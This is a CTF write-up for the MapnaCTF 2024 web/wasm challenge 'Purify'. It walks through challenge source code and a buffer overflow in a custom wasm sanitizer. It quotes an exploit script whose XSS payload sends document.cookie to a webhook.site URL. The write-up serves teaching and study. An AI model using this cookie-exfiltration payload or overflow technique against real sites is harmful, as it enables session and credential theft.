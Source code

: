 ```yaml
---
title: Purify
date: 2024-02-03
tags: 
- web
- wasm
- author-hartmannsyg
categories: MapnaCTF 2024
---
```


written by {% person hartmannsyg %}

## Preexisting writeups

This challenge had very few solves (4 solves), so finding preexisting writeups on it was hard. There was the "official writeup":

```html
<script>
    const i = open("http://web/")
    setTimeout(_=>{
        i.postMessage("A".repeat(0x1000-2),"*")
        i.postMessage("\x01\x00\x00\x00<img src=x onerror=fetch(`http://webhook.site/...?${document.cookie}`)>","*")
        i.postMessage("","*")
        i.postMessage("","*")
        i.postMessage("","*")
        //setTimeout(() => {
        //    console.log(new Uint8Array(wasm.memory.buffer).toString())
        //}, 1000);
    },1500)
</script>
```

> Roughly, the flow involves conducting a buffer overflow to modify the pointer from "is_dangerous" to point to the "escape_attr" function. With this, DomPurify will only sanitize " and ' characters, allowing us to freely use < and > for performing XSS (Cross-Site Scripting).

but I wanted to dig deeper. The only other source I could find was [this writeup in Japanese by BunkyoWesterns](https://nanimokangaeteinai.hateblo.jp/entry/2024/01/23/091151) which was in japanese. And I don't know japanese. So I painfully tried to read the writeup, one google-translated sentence at a time.

## The Challenge

> I think I downloaded the wrong DOMPurify.

We are given a app and an admin bot (so basically an XSS challenge).

## Admin bot

{% ccb lang:js gutter1:1-41 scrollable:true caption:bot.js highlight:26-33 %}
#!/usr/bin/env node
const puppeteer = require('puppeteer')

const flag = process.env.FLAG || 'MAPNA{test-flag}';

async function visit(url){
	let browser;

	if(!/^https?:\/\//.test(url)){
		return;
	}

	try{
		browser = await puppeteer.launch({
		    pipe: true,
		    args: [
		        "--no-sandbox",
		        "--disable-setuid-sandbox",
		        "--ignore-certificate-errors",
		    ],
		    executablePath: "/usr/bin/google-chrome-stable",
		    headless: 'new'
		});

		let page = await browser.newPage();
		await page.setCookie({
			name: 'flag',
			value: flag,
			domain: 'web',
			httpOnly: false,
			secure: false,
			sameSite: 'Lax'
		});
		await page.goto(url,{ waitUntil: 'domcontentloaded', timeout: 2000 });
		await new Promise(r=>setTimeout(r,5000));
	}catch(e){ console.log(e) }
	try{await browser.close();}catch(e){}
	process.exit(0)
}

visit(JSON.parse(process.argv[2]))
{% endccb %}

It sets a cookie named "flag" which contains the flag, with  `domain: 'web'` (???????), `httpOnly: fals` (means we can simply steal it using `document.cookie`), and `sameSite: 'Lax'`.

Apparently, `web` is an internal domain:

{% ccb lang:yaml gutter1:1-18 caption:docker-compose.yaml highlight:11-18 %}
version: "3.9"
services:
  bot:
    build: ./bot/
    restart: always 
    ports:
      - "8001:8000"
    environment:
      - "FLAG=MAPNA{test-flag}"
      - "CAPTCHA_SECRET="
  web:
    image: nginx@sha256:4c0fdaa8b6341bfdeca5f18f7837462c80cff90527ee35ef185571e1c327beac
    restart: always 
    ports:
      - "8000:80"
    volumes:
      - ./app/static:/var/www/html:ro
      - ./app/nginx.conf:/etc/nginx/conf.d/default.conf:ro
{% endccb %}

## App website

Now on the actual app website, we have:

{% ccb lang:js caption:script.js gutter1:1-7 %}
window.onmessage = e=>{
	list.innerHTML += `
		<li>From ${e.origin}: ${window.DOMPurify.sanitize(e.data.toString())}</li>
	`
}

setTimeout(_=>window.postMessage("hi",'*'),1000)
{% endccb %}

In `window.onmessage`, it does not check for the message origin. This meant that you can send a message from the attacker's webpage using an iframe or using `window.open`. However, since the cookie has `sameSite: 'Lax'`, `window.open` must be used, as that is considered [top-level navigation](https://stackoverflow.com/questions/67689503/what-is-top-level-navigation-in-browser-terminology-and-in-what-ways-it-can-be-t) (TL;DR: it must change the url in your address bar) while iframe is not.

It seems like we would have to do the insurmountable task of overcoming the real DOMPurify. However, window.DOMPurify is overwritten by:

{% ccb lang:js caption:purify.js gutter1:1-28 highlight:8,11,16 diff_add:23-26 %}
async function init() {
	window.wasm = (await WebAssembly.instantiateStreaming(
		fetch('./purify.wasm')
	)).instance.exports
}

function sanitize(dirty) {
	wasm.set_mode(0)	

	for(let i=0;i<dirty.length;i++){
		wasm.add_char(dirty.charCodeAt(i))
	}

	let c
	let clean = ''
	while((c = wasm.get_char()) != 0){
		clean += String.fromCharCode(c)
	}

	return clean
}

window.DOMPurify = { 
	sanitize,
	version: '1.3.7'
}

init()
{% endccb %}

The wasm has three functions used: `set_mode`, `add_char` and `get_char`.

## Custom sanitization implementation

We are given the source code for the wasm:

{% ccb lang:c caption:purify.c gutter1:1-56 %}
// clang --target=wasm32 -emit-llvm -c -S ./purify.c && llc -march=wasm32 -filetype=obj ./purify.ll && wasm-ld --no-entry --export-all -o purify.wasm purify.o
struct globalVars {
    unsigned int len;
    unsigned int len_r;
    char buf[0x1000];
    int (*is_dangerous)(char c);
} g;

int escape_tag(char c){
    if(c == '<' || c == '>'){
        return 1;
    } else {
        return 0;
    }
}

int escape_attr(char c){
    if(c == '\'' || c == '"'){
        return 1;
    } else {
        return 0;
    }
}

int hex_escape(char c,char *dest){
    dest[0] = '&';
    dest[1] = '#';
    dest[2] = 'x';
    dest[3] =  "0123456789abcdef"[(c&0xf0)>>4];
    dest[4] =  "0123456789abcdef"[c&0xf];
    dest[5] =  ';';
    return 6;
}

void add_char(char c) {
    if(g.is_dangerous(c)){
        g.len += hex_escape(c,&g.buf[g.len]);
    } else {
        g.buf[g.len++] = c;
    }
}

int get_char(char f) {
    if(g.len_r < g.len){
        return g.buf[g.len_r++];
    }
    return '\0';
}

void set_mode(int mode) {
    if(mode == 1){
        g.is_dangerous = escape_attr;
    } else {
        g.is_dangerous = escape_tag;
    }
}
{% endccb %}

`set_mode` firsts sets whether the `is_dangerous` is:
- `escape_attr` (only removes single and double quotes, backticks `\`` are still allowed, able to xss) 
or 
- `escape_tag` (removes angled brackets, impossible to xss)

However, `set_mode` is originally set to 0, which corresponds to `escape_tag`. So what do we do?

## Buffer Overflow

we see in the `add_char` code that `g.buf` is vulnerable to a buffer overflow:

{% ccb lang:c caption:purify.c gutter1:35-41 highlight:5 %}
void add_char(char c) {
    if(g.is_dangerous(c)){
        g.len += hex_escape(c,&g.buf[g.len]);
    } else {
        g.buf[g.len++] = c;
    }
}
{% endccb %}

It can arbitrarily write past the length of `g.buf` (0x1000).

Since `is_dangerous` is located after `buf` in `g`, we could potentially overwrite it with a buffer overflow:

{% ccb lang:c caption:purify.c gutter1:2-7 highlight:4-5 %}
struct globalVars {
    unsigned int len;
    unsigned int len_r;
    char buf[0x1000];
    int (*is_dangerous)(char c);
} g;
{% endccb %}

## wasm

from the [BunkyoWesterns writeup](https://nanimokangaeteinai.hateblo.jp/entry/2024/01/23/091151) apparently there is a feature in the Chrome Dev Tools: Sources → purify.wasm which contains the wasm instructions 


{% ccb lang:wasm caption:purify.wasm gutter1:1-22,S highlight:23 %}

  (func $add_char (;4;) (export "add_char") (param $var0 i32)
    (local $var1 i32)
    (local $var2 i32)
    global.get $__stack_pointer
    i32.const 16
    i32.sub
    local.tee $var1
    global.set $__stack_pointer
    local.get $var1
    local.get $var0
    i32.store8 offset=15
    block $label1
      block $label0
        local.get $var1
        i32.load8_u offset=15
        i32.const 24
        i32.shl
        i32.const 24
        i32.shr_s
        i32.const 0
        i32.load offset=5148
        call_indirect (param i32) (result i32)
//SKIP_LINE:(23-63)
{% endccb %}

is_dangerous

